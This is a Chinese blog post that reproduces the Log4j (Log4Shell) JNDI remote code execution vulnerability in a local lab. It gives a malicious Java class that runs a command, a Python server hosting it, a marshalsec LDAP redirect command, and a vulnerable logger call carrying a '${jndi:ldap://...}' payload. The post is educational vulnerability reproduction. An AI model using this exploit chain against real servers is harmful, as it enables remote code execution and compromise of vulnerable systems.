# Log4J 漏洞复现+漏洞靶场

昨天晚上朋友圈算是过了年了，一个log4j大伙都忙了起来，看着朋友圈好久没这么热闹了。Apache 的这个log4j这个影响范围的确是大，包括我自己做开发的时候也会用到log4j，这就很尴尬了。

大家也不要在公网上疯狂测试了，我给大家带来了漏洞靶场，攻击视频在下文，一步一步教你。

漏洞原理我改天会详细的写一篇文章出来，今天就主要是复现一下漏洞。

昨晚爆出的log4j rce 是通过lookup触发的漏洞，但jdk1.8.191以上默认不支持ldap协议，对于高版本jdk,则需要一定的依赖。不过为了给大家最简单的说明，我这里还是用jdk1.8.144的版本来运行。

这个漏洞和fastjson的漏洞利用如出一辙，首先需要编写一个恶意类。

```java
public class Exploit {
    public Exploit(){
        try{
            // 要执行的命令
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = Runtime.getRuntime().exec(commands);
            pc.waitFor();
        } catch(Exception e){
            e.printStackTrace();
        }
    }

    public static void main(String[] argv) {
        Exploit e = new Exploit();
    }
}
```

这里是弹出计算器

把这个类编译之后会得到一个Exploit.class，然后需要在当前目录下启动一个web服务，

```
python3 -m http.server 8100

```

```bash

mrgaogang@mrgaogang-MB0 java % python3 -m http.server 8100
Serving HTTP on 0.0.0.0 port 8100 (http://0.0.0.0:8100/) ...

127.0.0.1 - - [28/Feb/2022 22:07:12] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [28/Feb/2022 22:07:15] "GET /Exploit.class HTTP/1.1" 200 -


```

然后用[marshalsec](https://github.com/mbechler/marshalsec) IDAP服务，项目地址：[https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)

```
java -cp ./marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"

```

```bash

Listening on 0.0.0.0:1389
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for Exploit2 redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaa redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for  redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaaaaa redirecting to http://127.0.0.1:8100/Exploit.class
Send LDAP reference result for aaaaaaa redirecting to http://127.0.0.1:8100/Exploit.class



```
漏洞类

```java

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class LogTest {
    private static final Logger logger = LogManager.getLogger(LogTest.class);

    public static void main(String[] args) {
        logger.error(   "${jndi:ldap://127.0.0.1:1389/aaaaaaa}");
    }
}


```

最后运行LogTest下面的main